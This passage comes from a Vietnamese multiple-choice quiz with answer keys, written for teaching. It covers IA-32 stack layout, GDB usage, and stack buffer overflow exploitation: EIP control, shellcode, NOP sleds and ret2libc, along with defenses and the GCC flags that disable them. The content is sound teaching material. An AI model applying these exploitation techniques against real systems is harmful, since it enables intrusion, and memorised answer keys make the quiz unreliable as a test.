- D. `2B 1A 4D 3C`

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Little Endian: LSB first (byte nhỏ nhất ở địa chỉ thấp nhất).
    `0x1A2B3C4D` → `4D`(addr+0), `3C`(addr+1), `2B`(addr+2), `1A`(addr+3).

---

**Câu 18.** Trong calling convention `__cdecl` (IA-32), các tham số được đẩy vào stack theo thứ tự nào?

- A. Từ trái sang phải (tham số đầu tiên đẩy trước)
- B. Từ phải sang trái (tham số cuối cùng đẩy trước)
- C. Ngẫu nhiên, do compiler quyết định
- D. Theo thứ tự alphabetical

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `__cdecl`: tham số được push từ phải sang trái → tham số đầu tiên nằm ở địa chỉ thấp nhất trong vùng tham số (gần EBP nhất), được truy xuất qua `8(%ebp)`.

---

**Câu 19.** Lệnh CALL trong IA-32 thực hiện gì?

- A. Chỉ nhảy đến địa chỉ đích
- B. Đẩy địa chỉ của lệnh tiếp theo (return address / EIP cũ) vào stack, sau đó nhảy đến hàm được gọi
- C. Lưu tất cả thanh ghi vào stack
- D. Tạo một stack frame mới

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    CALL = PUSH EIP (địa chỉ lệnh kế tiếp sau CALL) + JMP đến địa chỉ đích. Return address được lưu trên stack để lệnh RET có thể lấy ra và trở về.

---

**Câu 20.** Lệnh RET trong IA-32 thực hiện gì?

- A. Xóa stack frame hiện tại và kết thúc chương trình
- B. POP giá trị từ đỉnh stack vào EIP, sau đó nhảy đến địa chỉ đó
- C. Khôi phục tất cả thanh ghi đã lưu
- D. Trả về giá trị trong EAX

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    RET = POP EIP. Nó lấy giá trị ở đỉnh stack (đáng lẽ là return address hợp lệ) và gán vào EIP. Nếu attacker ghi đè return address, RET sẽ nhảy đến địa chỉ của attacker.

---

**Câu 21.** Trong stack frame, return address nằm ở vị trí nào so với EBP?

- A. `-4(%ebp)`
- B. `0(%ebp)` (chính EBP)
- C. `4(%ebp)` (EBP + 4)
- D. `8(%ebp)` (EBP + 8)

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Bố cục: `0(%ebp)` = EBP cũ được lưu, `4(%ebp)` = return address, `8(%ebp)` = tham số thứ nhất. Biến cục bộ: `-4(%ebp)`, `-8(%ebp)`...

---

**Câu 22.** Tại sao hàm `gets()` bị coi là nguy hiểm?

- A. Nó chậm hơn các hàm khác
- B. Nó không kiểm tra giới hạn kích thước đầu vào (không có bound-checking)
- C. Nó chỉ đọc được tối đa 255 ký tự
- D. Nó không hoạt động trên Linux

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `gets()` đọc input cho đến khi gặp newline hoặc EOF, không giới hạn số ký tự. Nếu input dài hơn buffer, nó sẽ ghi đè bộ nhớ kề bên (EBP, ret-addr...). Hàm này đã bị loại bỏ khỏi C11 standard.

---

**Câu 23.** Hàm an toàn thay thế cho `gets()` là gì?

- A. `scanf()`
- B. `getchar()`
- C. `fgets(buf, sizeof(buf), stdin)`
- D. `read()`

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    `fgets(buf, n, stream)` giới hạn tối đa `n-1` ký tự, luôn thêm null terminator → an toàn. `scanf("%s")` cũng không an toàn, phải dùng `scanf("%30s")` để giới hạn.

---

**Câu 24.** Stack overflow xảy ra khi nào?

- A. Stack đầy do gọi hàm đệ quy quá sâu
- B. Dữ liệu được ghi vượt qua giới hạn của buffer trên stack, ghi đè vào vùng nhớ kề cạnh
- C. Cả A và B
- D. Chương trình dùng quá nhiều RAM

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Trong ngữ cảnh bảo mật (bài học này), "stack overflow" = **buffer overflow trên stack** (ghi đè vùng nhớ ngoài buffer). Nhưng thuật ngữ tổng quát cũng bao gồm stack exhaustion do đệ quy vô hạn.

---

**Câu 25.** Khi buffer overflow ghi đè EBP đã lưu trên stack, hậu quả là gì?

- A. Chương trình crash ngay lập tức
- B. Hàm mẹ (caller) sẽ truy xuất sai stack frame của nó, có thể gây lỗi hoặc crash
- C. Hệ điều hành dừng chương trình
- D. Không có hậu quả gì

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Khi hàm con RET, EBP cũ được POP ra. Hàm mẹ dùng EBP để truy xuất biến và tham số của nó. Nếu EBP sai, mọi truy xuất qua offset của hàm mẹ đều sai → hành vi bất định.

---

**Câu 26.** Mục tiêu cuối cùng của kỹ thuật "điều khiển EIP" trong khai thác buffer overflow là gì?

- A. Làm crash chương trình mục tiêu
- B. Ghi đè return address để chuyển luồng thực thi đến vị trí attacker mong muốn
- C. Xóa toàn bộ stack
- D. Vô hiệu hóa stack canary

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Kiểm soát EIP = kiểm soát luồng thực thi. Attacker ghi địa chỉ shellcode (hoặc gadget ROP) vào vị trí return address → khi RET thực thi, CPU nhảy đến đó.

---

**Câu 27.** Shellcode là gì?

- A. Script shell (bash, sh) để tự động hóa tác vụ
- B. Các byte code thực thi được, hệ thống có thể thực thi trực tiếp
- C. Code C dùng để mở shell
- D. Mã nguồn của exploit

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Shellcode = opcode (machine code) thuần túy, không cần biên dịch, có thể nhúng trực tiếp vào input. Tên "shellcode" xuất phát từ mục tiêu phổ biến ban đầu là mở một shell (`/bin/sh`).

---

**Câu 28.** Tại sao không thể truyền trực tiếp code C làm shellcode?

- A. C không hỗ trợ network
- B. Code C cần được biên dịch thành machine code trước khi CPU có thể thực thi
- C. Code C quá dài
- D. Hệ điều hành chặn code C

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    CPU chỉ hiểu machine code (binary opcodes). Code C là ngôn ngữ bậc cao, cần qua compiler (gcc) mới thành binary. Shellcode chính là phần binary/opcode đó, được trích xuất ra dạng byte array.

---

**Câu 29.** Kỹ thuật NOP Sled (NOP pad) giải quyết vấn đề gì?

- A. Tăng tốc độ thực thi shellcode
- B. Giải quyết vấn đề địa chỉ shellcode không chính xác do ASLR hoặc offset thay đổi
- C. Làm cho shellcode ngắn hơn
- D. Bypass stack canary

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Lệnh NOP (`\x90`) không làm gì cả, CPU "trượt qua" (sled). Đặt hàng trăm NOP trước shellcode → chỉ cần nhảy vào bất kỳ đâu trong vùng NOP là sẽ đến được shellcode, tăng xác suất thành công.

---

**Câu 30.** Stack Canary bảo vệ chống lại stack overflow như thế nào?

- A. Mã hóa toàn bộ stack
- B. Chèn một giá trị ngẫu nhiên giữa buffer và return address; kiểm tra trước khi RET, nếu bị thay đổi thì dừng chương trình
- C. Ngăn không cho ghi vào stack
- D. Randomize địa chỉ stack

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Canary value = giá trị ngẫu nhiên đặt "cạnh gác" giữa buffer và return address. Nếu buffer overflow đủ lớn để đến được ret-addr, nó phải đi qua canary trước. Trước RET, compiler chèn code kiểm tra canary → nếu sai → `__stack_chk_fail()` → chương trình dừng.

---

**Câu 31.** ASLR (Address Space Layout Randomization) bảo vệ như thế nào?

- A. Mã hóa địa chỉ bộ nhớ
- B. Ngẫu nhiên hóa địa chỉ base của stack, heap, và libraries mỗi lần chạy → attacker không biết địa chỉ chính xác
- C. Ngăn không cho tạo shellcode
- D. Kiểm tra bounds của mọi mảng

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Không có ASLR, địa chỉ stack luôn cố định (ví dụ quanh `0xBFFFxxxx`) → dễ đoán. Với ASLR, địa chỉ thay đổi mỗi lần chạy → attacker cần leak địa chỉ trước hoặc dùng kỹ thuật khác (ret2libc, ROP...).

---

**Câu 32.** Cờ `-fno-stack-protector` khi biên dịch với GCC có tác dụng gì?

- A. Tắt tối ưu hóa compiler
- B. Tắt cơ chế bảo vệ stack canary
- C. Tắt ASLR
- D. Cho phép thực thi code trên stack

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `-fno-stack-protector` = tắt stack canary. Dùng khi thực hành khai thác để không bị canary chặn. Mặc định GCC bật `-fstack-protector` (hoặc `-fstack-protector-strong`).

---

**Câu 33.** Cờ `-z execstack` khi biên dịch có tác dụng gì?

- A. Tắt stack canary
- B. Cho phép thực thi code trên vùng nhớ stack (tắt NX bit)
- C. Tắt ASLR
- D. Bật tối ưu hóa stack

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Mặc định, stack được đánh dấu là **non-executable** (NX/DEP). `-z execstack` tắt bảo vệ này, cho phép thực thi shellcode đặt trực tiếp trên stack. Dùng để thực hành tấn công cơ bản.

---

**Câu 34.** `-no-pie` khi biên dịch với GCC ảnh hưởng như thế nào đến bảo mật?

- A. Tắt stack canary
- B. Không tạo PIE (Position Independent Executable), làm ASLR không hiệu quả với file thực thi
- C. Cho phép ghi vào segment .text
- D. Tắt NX bit

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    PIE là điều kiện cần để ASLR có thể randomize địa chỉ của chính file thực thi. Không có PIE, base address của file thực thi luôn cố định (ví dụ `0x08048000`) → attacker biết chính xác địa chỉ code.

---

**Câu 35.** Lệnh PUSH trong IA-32 làm gì với ESP?

- A. Tăng ESP lên 4
- B. Giảm ESP xuống 4, sau đó ghi dữ liệu vào địa chỉ ESP mới
- C. Không thay đổi ESP
- D. Ghi dữ liệu trước, sau đó tăng ESP

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    PUSH: `ESP -= 4` (vì stack phát triển xuống), sau đó `MEM[ESP] = value`. POP thì ngược lại: `value = MEM[ESP]`, rồi `ESP += 4`.

---

**Câu 36.** Trong hàm `function(int a, int b)`, tham số `a` (đầu tiên) được truy xuất qua offset nào từ EBP?

- A. `-4(%ebp)`
- B. `4(%ebp)`
- C. `8(%ebp)`
- D. `12(%ebp)`

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Stack frame: `0(%ebp)` = EBP cũ, `4(%ebp)` = return address, `8(%ebp)` = tham số thứ nhất (a), `12(%ebp)` = tham số thứ hai (b), ...

---

**Câu 37.** Lệnh LEAVE trong assembly IA-32 làm gì?

- A. Kết thúc chương trình
- B. Tương đương `MOV ESP, EBP` rồi `POP EBP` – thu dọn stack frame
- C. Xóa toàn bộ stack
- D. Chỉ khôi phục EBP

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    LEAVE = `MOV ESP, EBP` (khôi phục ESP về giá trị EBP, giải phóng biến cục bộ) + `POP EBP` (khôi phục EBP cũ của hàm caller). Thường đứng trước RET.

---

**Câu 38.** Trong GDB, lệnh `x/10xb 0xdeadbeef` có nghĩa là gì?

- A. Xem 10 words dạng binary tại địa chỉ 0xdeadbeef
- B. Xem 10 bytes dạng hexadecimal tại địa chỉ 0xdeadbeef
- C. Xem 10 dwords dạng decimal tại địa chỉ 0xdeadbeef
- D. Execute 10 lệnh từ địa chỉ 0xdeadbeef

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `x/NFU addr`: N=10 (số đơn vị), F=x (hex format), U=b (byte = 1 byte). Vậy xem 10 bytes dạng hex tại địa chỉ đó.

---

**Câu 39.** Lệnh GDB nào dùng để đặt breakpoint tại địa chỉ cụ thể `0x08048384`?

- A. `break 0x08048384`
- B. `break *0x08048384`
- C. `stop 0x08048384`
- D. `bp 0x08048384`

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `break *address` (có dấu `*`) dùng để đặt breakpoint tại địa chỉ bộ nhớ. `break function_name` dùng để đặt tại đầu hàm.

---

**Câu 40.** Trong GDB, `stepi` và `nexti` khác nhau như thế nào?

- A. `stepi` nhanh hơn `nexti`
- B. `stepi` đi vào trong hàm (step into); `nexti` thực thi cả hàm mà không đi vào (step over)
- C. `nexti` chỉ dùng được với hàm C, `stepi` dùng cho assembly
- D. Không có sự khác biệt

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `stepi` (step into): nếu lệnh hiện tại là CALL, sẽ đi vào trong hàm và dừng ở lệnh đầu tiên. `nexti` (step over): thực thi CALL nhưng không đi vào, dừng ở lệnh tiếp theo sau CALL.

---

**Câu 41.** Lệnh GDB `disassemble main` dùng để làm gì?

- A. Dịch ngược toàn bộ chương trình
- B. Hiển thị mã assembly của hàm `main`
- C. Debug từng bước hàm main
- D. Xem biến trong hàm main

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `disassemble` (viết tắt `disas`) hiển thị mã assembly (disassembly) của hàm được chỉ định, kèm địa chỉ của từng lệnh.

---

**Câu 42.** Tại sao máy tính không phân biệt được instructions và data trong bộ nhớ?

- A. Vì cả hai đều được lưu dưới dạng bytes trong RAM
- B. Vì hệ điều hành không có cơ chế phân biệt
- C. Vì CPU không có đủ bit để phân biệt
- D. Vì ngôn ngữ C không phân biệt

??? info "Đáp án & Giải thích"
    **Đáp án: A**
    
    Trong von Neumann architecture, cả code và data đều là bytes trong RAM. CPU lấy bytes tại địa chỉ EIP trỏ đến và decode chúng như instructions. Nếu EIP trỏ đến "data", CPU vẫn cố decode và thực thi → đây là nền tảng của code injection.

---

**Câu 43.** Trong ví dụ tấn công, sau khi nhập `AAAAAAAAAABBBBBBBBBBCCCCCCCCCCDDDDDDDDDD`, giá trị `0x44444444` tương ứng với ký tự nào trong ASCII?

- A. 'A'
- B. 'B'
- C. 'C'
- D. 'D'

??? info "Đáp án & Giải thích"
    **Đáp án: D**
    
    Trong ASCII: `0x41` = 'A', `0x42` = 'B', `0x43` = 'C', `0x44` = 'D'. Vậy `0x44444444` = "DDDD". Trong ví dụ bài học, 'D' là chuỗi cuối ghi đè lên cả EBP và ret-addr.

---

**Câu 44.** Kích thước tối thiểu của input để ghi đè return address trong ví dụ 2 (array[30]) là bao nhiêu byte?

- A. 30 bytes
- B. 34 bytes
- C. 36 bytes
- D. 38 bytes

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    30 bytes (array) + 2 bytes padding (alignment) + 4 bytes EBP = 36 bytes. Byte thứ 37-40 sẽ ghi đè lên return address. Trong ví dụ: 10A + 10B + 10C = 30 chars array+padding, 6D ghi đè EBP+đầu ret-addr.

---

**Câu 45.** Lệnh GCC nào dùng để biên dịch file thực thi 32-bit trên hệ thống 64-bit?

- A. `-x86`
- B. `-m32`
- C. `-32bit`
- D. `-arch i386`

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `-m32` yêu cầu GCC tạo code 32-bit (IA-32). Cần cài thêm `gcc-multilib` trên nhiều distro Linux 64-bit.

---

**Câu 46.** PoC trong bảo mật là viết tắt của gì và có ý nghĩa gì?

- A. Point of Contact – điểm liên lạc với vendor
- B. Proof of Concept – code/demo chứng minh lỗ hổng có thể bị khai thác
- C. Prevention of Compromise – biện pháp ngăn chặn
- D. Protocol of Cybersecurity – giao thức bảo mật

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    PoC = Proof of Concept = đoạn code hoặc bước thực hiện chứng minh rằng một lỗ hổng là thực sự có thể khai thác được (exploitable), không chỉ là lý thuyết. Đây là tên gọi khác của exploit.

---

**Câu 47.** Lệnh `set disassembly-flavor intel` trong GDB có tác dụng gì?

- A. Dịch tài liệu sang tiếng Anh
- B. Chuyển sang cú pháp Intel (destination trước, source sau) thay vì AT&T (source trước, destination sau)
- C. Bật tối ưu hóa Intel
- D. Kết nối với chip Intel

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    GDB mặc định dùng AT&T syntax: `mov %eax, %ebx`. Intel syntax: `mov ebx, eax`. Hầu hết tài liệu exploit/reverse engineering dùng Intel syntax, dễ đọc hơn cho người mới.

---

**Câu 48.** Trong ví dụ 3 (điều khiển EIP), địa chỉ `0x080483c4` được viết trong payload Little Endian như thế nào?

- A. `\x08\x04\x83\xc4`
- B. `\xc4\x83\x04\x08`
- C. `\x83\xc4\x08\x04`
- D. `\x04\x08\xc4\x83`

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Little Endian: byte thấp nhất (LSB) trước. `0x080483c4` → bytes: `c4`, `83`, `04`, `08` → `\xc4\x83\x04\x08`.

---

**Câu 49.** Segment `.bss` trong file thực thi có đặc điểm gì đặc biệt về kích thước lưu trữ?

- A. Lớn nhất trong tất cả segment
- B. Không chiếm không gian trong file thực thi trên đĩa, chỉ lưu kích thước; OS zero-fill khi load vào RAM
- C. Được nén lại để tiết kiệm không gian
- D. Lưu ở một file riêng biệt

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `.bss` (Block Started by Symbol) chứa biến chưa khởi tạo → giá trị ban đầu đều là 0. Không cần lưu data trong file thực thi, chỉ cần lưu kích thước. Khi load, OS cấp phát vùng nhớ và zero-fill → tiết kiệm dung lượng file.

---

**Câu 50.** Kỹ thuật "return-to-libc" (ret2libc) được dùng để bypass biện pháp bảo vệ nào?

- A. Stack canary
- B. NX/DEP (Non-Executable Stack)
- C. ASLR
- D. PIE

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Khi stack non-executable (NX/DEP), shellcode trên stack không chạy được. ret2libc bypass bằng cách ghi đè ret-addr thành địa chỉ của hàm trong libc (ví dụ `system("/bin/sh")`), không cần thực thi code trên stack.

---

**Câu 51.** Tại sao lỗ hổng buffer overflow vẫn còn phổ biến dù đã được biết đến từ lâu?

- A. Vì không có cách nào vá lỗ hổng này
- B. Vì C/C++ vẫn được dùng rộng rãi và không có bound-checking tự động; lập trình viên cần tự kiểm tra
- C. Vì tất cả hệ điều hành đều tắt các biện pháp bảo vệ
- D. Vì ASLR không hiệu quả

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    C/C++ là ngôn ngữ phổ biến nhất cho hệ thống, firmware, server. Chúng không có garbage collection hay bounds checking tự động. Lỗi lập trình (dùng `gets`, `strcpy` không kiểm tra...) vẫn xảy ra liên tục, đặc biệt trong codebase lớn và legacy code.

---

**Câu 52.** Trong EFLAGS register, các flag được dùng để làm gì trong context khai thác?

- A. Lưu kết quả phép tính và điều kiện nhảy (JGE, JNE, JZ...)
- B. Kiểm tra stack canary
- C. Lưu địa chỉ trả về
- D. Theo dõi số lần hàm được gọi

??? info "Đáp án & Giải thích"
    **Đáp án: A**
    
    EFLAGS chứa các cờ như ZF (zero flag), SF (sign flag), CF (carry flag)... Các lệnh so sánh (CMP, TEST) set các flag này. Lệnh nhảy có điều kiện (JGE, JNE, JZ...) kiểm tra EFLAGS để quyết định có nhảy không.

---

**Câu 53.** Lệnh `or eax, eax` trong assembly IA-32 thường được dùng để làm gì?

- A. Nhân đôi giá trị EAX
- B. Set các EFLAGS dựa trên giá trị hiện tại của EAX mà không thay đổi EAX
- C. Xóa EAX về 0
- D. Copy EAX sang vùng nhớ

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `OR eax, eax` = EAX OR EAX = EAX (không thay đổi giá trị), nhưng **set ZF** (zero flag) nếu EAX = 0, set SF nếu âm. Thường dùng thay cho `CMP eax, 0` để kiểm tra zero/negative một cách ngắn hơn.

---

**Câu 54.** Wargame và CTF có vai trò gì trong việc học khai thác lỗ hổng?

- A. Chỉ dành cho chuyên gia, người mới không nên tham gia
- B. Cung cấp môi trường thực hành an toàn và hợp pháp để luyện tập kỹ năng khai thác
- C. Chỉ cung cấp kiến thức lý thuyết
- D. Dùng để thi chứng chỉ bảo mật chính thức

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Wargame (pwnable.kr, pwnable.tw...) và CTF (Capture The Flag) là nền tảng học thực hành khai thác trong môi trường được kiểm soát, hợp pháp. Đây là cách tốt nhất để áp dụng lý thuyết vào thực tế mà không vi phạm pháp luật.

---

**Câu 55.** Trong ngữ cảnh bảo mật, tại sao việc hiểu hợp ngữ (assembly) là bắt buộc?

- A. Vì mọi exploit đều phải viết bằng assembly
- B. Vì khai thác lỗ hổng thường cần viết shellcode (machine code), hiểu cách chương trình thực thi ở mức thấp nhất, và phân tích binary không có source code
- C. Vì assembly chạy nhanh hơn C
- D. Vì hệ điều hành chỉ hiểu assembly

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Để khai thác: (1) viết shellcode = viết assembly, (2) debug với GDB = đọc assembly disassembly, (3) reverse engineering malware/binary = phân tích assembly. Không có source code, assembly là thứ duy nhất ta có.
